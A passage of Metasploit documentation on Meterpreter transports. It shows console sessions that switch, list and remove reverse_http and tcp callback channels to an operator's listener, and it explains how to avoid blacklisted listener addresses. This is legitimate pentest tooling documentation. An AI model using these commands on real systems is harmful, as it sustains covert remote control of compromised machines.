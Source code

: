 From here, moving backward sends Meterpreter back to the `reverse_http` listener:

```bash
meterpreter > transport prev
[*] Changing to previous transport ...

[*] 10.1.10.40:46245 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[+] Successfully changed to the previous transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:5105 -> 10.1.10.40:46245) at 2015-06-02 20:55:07 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

### Remove transports

It is also possible to remove transports from the underlying transport list. This is valuable in cases where you want Meterpreter to always callback on stageless listeners (allowing you to avoid the unnecessary upload of the second stage), or when you have a listener located at an IP address that may have been blacklisted by your target as a result of your post-exploitation shenanigans.

The command is similar to `add` in that it takes a subset of the parameters, and then adds a new one on top of it:

* `-t` - The transport type.
* `-l` - The `LHOST` value (unless it's `bind_tcp`).
* `-p` - The `LPORT` value.
* `-u` - This value is only required for `reverse_http/s` transports and needs to contain the URI of the transport in question. This is important because there might be multiple listeners on the same IP and port, so the URI is what differentiates each of the sessions.

```bash
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-07-10 07:39:08

    Curr  URL                                                                                                             Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                             ---------  -----------  ----------
    *     tcp://10.1.10.40:5000                                                                                           300        3600         10
          http://10.1.10.40:9090/jYGS61OX8On-Dv8Pq5v9FAJAEobAlrL4J2FBOf_3DsnZzCJAY6-Dh_8AeWdrkFwRbQdvz4vOo8let4huygVLPJ/  300        3600         10

meterpreter > transport remove -t reverse_http -l 10.1.10.40 -p 9090 -u jYGS61OX8On-Dv8Pq5v9FAJAEobAlrL4J2FBOf_3DsnZzCJAY6-Dh_8AeWdrkFwRbQdvz4vOo8let4huygVLPJ
```

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication